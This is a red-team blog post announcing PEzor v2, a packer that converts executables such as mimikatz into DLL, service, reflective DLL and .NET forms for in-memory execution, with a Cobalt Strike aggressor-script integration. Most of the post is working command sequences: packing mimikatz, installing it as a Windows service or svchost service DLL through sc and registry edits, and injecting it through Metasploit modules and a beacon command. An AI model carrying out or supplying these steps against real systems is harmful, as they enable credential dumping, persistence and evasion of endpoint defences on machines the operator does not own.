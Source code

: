 ```yaml
---
layout: default
---
```


_**Oct 26, 2020**_

# PEzor v2 — New Output Formats and Cobalt Strike Integration

The `execute-assembly` capability of [Cobalt Strike](https://www.cobaltstrike.com/)'s beacon lets operators execute .NET assemblies without touching the disk and it deeply influenced the recent offensive developments by pushing the community to move towards .NET. But wouldn't be nice if we could [execute arbitrary executables in-memory](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html) with the same ease? Let's find out how we can achieve that with [PEzor](https://iwantmore.pizza/posts/PEzor.html)!

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike.jpg "PEzor with Cobalt Strike")

## Current State

[Cobalt Strike](https://www.cobaltstrike.com/) supports two techniques to execute in-memory post-ex capabilities:

1. [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn): this function orders the beacon implant to retrieve a [reflective DLL](https://www.exploit-db.com/docs/english/13007-reflective-dll-injection.pdf) from the C2 server, create a sacrificial process, inject the payload in its memory and create a thread to execute the exported function `ReflectiveLoader`, responsible of manually mapping the foreign DLL into target process without requiring the OS loader. In order to produce a reflective DLL from a regular one, we need to update its source code to integrate [Stephen Fewer's library](https://github.com/stephenfewer/ReflectiveDLLInjection) and compile it.
2. [bexecute_assembly](https://www.cobaltstrike.com/aggressor-script/functions.html#bexecute_assembly): this function orders the beacon implant to retrieve a .NET assembly from the C2 server, create a sacrificial process, inject a CLR hosting reflective DLL that will bootstrap the .NET runtime and pass the provided assembly to it. This technique doesn't require modification to the original source code since it can execute .NET PEs out of the box and for this reason it has been quite popular. However, we are limited to execute .NET assembly, so any native binary is a no-go if we don't want to touch the disk.

After some research, I thought I could improve [PEzor](https://iwantmore.pizza/posts/PEzor.html) in order to be able to produce different output formats than regular PE executables: if we can automate the process of converting an existing EXE/DLL/etc to other formats such as DLLs, reflective DLLs and .NET assemblies while maintaining the original semantic intact, we could implement a new command in [Cobalt Strike](https://www.cobaltstrike.com/) that can convert on the fly arbitrary executables and task the beacon to execute it in-memory.

## New Output Formats

Currently, PEzor supports the following new output formats, given an arbitrary executable or raw shellcode:

- **exe**: this is the only format that was supported by PEzor v1, that is a native binary
- **dll**: PEzor can now convert existing executables to their DLL counterpart, without requiring to recompile from the sources
- **service-exe**: it can produce a Service EXE version of the native binary, that exports required functions to be run as a system service
- **service-dll**: it can produce a Service DLL version of the native binary, that exports required functions to be run inside a `dllhost` process (ref: [Running a Service DLL](https://blog.didierstevens.com/2019/10/29/quickpost-running-a-service-dll/))
- **reflective-dll**: it can produce a reflective DLL version of the native binary, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's reflective_dll_inject](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/windows/manage/reflective_dll_inject.rb) module
- **dotnet**: it can produce a .NET binary equivalent to the native one, that can be loaded and executed in-memory by most of the frameworks, such as [Metasploit's execute_dotnet_assembly](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/execute_dotnet_assembly.rb) module

## Examples

Let's see how we can generate and execute the new formats.

- **exe**

```
# generate
$ PEzor -format=exe mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> .\mimikatz.exe.packed.exe
```

- **dll**

```
# generate
$ PEzor -format=dll mimikatz.exe -z 2 -p '"token::whoami" "exit"'

# execute
C:> rundll32 .\mimikatz.exe.packed.dll,DllMain
```

- **service-exe**

```
# generate
$ PEzor -format=service-exe mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> sc create mimiservice binpath= C:\Users\Public\mimikatz.exe.packed.service.exe
[SC] CreateService SUCCESS

C:\Users\Public> sc start mimiservice
SERVICE_NAME       : mimiservice
        TYPE               : 20  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 913
        FLAGS              : 0x0
```

- **service-dll**

```
# generate
$ PEzor -format=service-dll mimikatz.exe -z 2 -p '"log C:/Users/Public/mimi.out" "coffee" "exit"'

# execute
C:\Users\Public> copy /y mimikatz.packed.exe.service.dll %SystemRoot%\System32\SvcHostDemo.dll
        1 file(s) copied.

C:\Users\Public> sc create SvcHostDemo binpath= ^%SystemRoot^%"\System32\svchost -k mygroup" type= share start= demand
[SC] CreateService SUCCESS

C:\Users\Public> reg add "HKLM\SYSTEM\CurrentControlSet\services\SvcHostDemo\Parameters /v ServiceDll /t REG_EXPAND_SZ /d ^%SystemRoot^%\System32\SvcHostDemo.dll /f
The operation completed successfully.

C:\Users\Public> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v mygroup /t REG_MULTI_SZ /d SvcHostDemo /f
The operation completed successfully.

C:\Users\Public> sc start SvcHostDemo
SERVICE_NAME       : SvcHostDemo
        TYPE               : 30  WIN32
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1823
        FLAGS              : 0x0
```

- **reflective-dll**

```
# generate
$ PEzor -format=reflective-dll mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'

# execute
msf5 > use post/windows/manage/reflective_dll_inject
msf5 post(windows/manage/reflective_dll_inject) > set PATH mimikatz.exe.packed.reflective.dll
msf5 post(windows/manage/reflective_dll_inject) > set WAIT 10
msf5 post(windows/manage/reflective_dll_inject) > run
```

![PEzor with Metasploit](../assets/images/pezor-metasploit.jpg "PEzor with Metasploit")

- **dotnet**

```
# generate
$ PEzor -format=dotnet mimikatz.exe -z 2 -p '"log mimi.out" "coffee" "exit"'

# execute
msf5 > use post/windows/manage/execute_dotnet_assembly
msf5 post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE mimikatz.exe.packed.dotnet.exe
msf5 post(windows/manage/execute_dotnet_assembly) > set WAIT 10
msf5 post(windows/manage/execute_dotnet_assembly) > run
```

![PEzor with Metasploit](../assets/images/pezor-metasploit2.jpg "PEzor with Metasploit")

## Cobalt Strike Integration

Now we know how to generate different outputs and manually execute them, but how can we integrate this new tool within Cobalt Strike? To have a smooth _OX_ (operator experience), I wrote an [aggressor script](https://www.cobaltstrike.com/aggressor-script/index.html) that provide a transparent command similar to `execute-assembly` that can be invoked with the same command line options of PEzor: the script will automatically launch in background PEzor to convert the provided executable to the desired format (reflective-dll or dotnet) and task the beacon to inject the reflective DLL or execute in-memory the generated .NET assembly. The script can be found [here](https://github.com/phra/PEzor/blob/master/aggressor/PEzor.cna).

```
# convert and execute reflective DLL
beacon> execute-inmemory -format=reflective-dll mimikatz.exe -z 2 -p '"coffee" "exit"'

# convert and execute .NET assembly
beacon> execute-inmemory -format=dotnet mimikatz.exe -z 2 -p '"coffee" "exit"'
```

![PEzor with Cobalt Strike](../assets/images/pezor-cobaltstrike2.jpg "PEzor with Cobalt Strike")

[back](../)
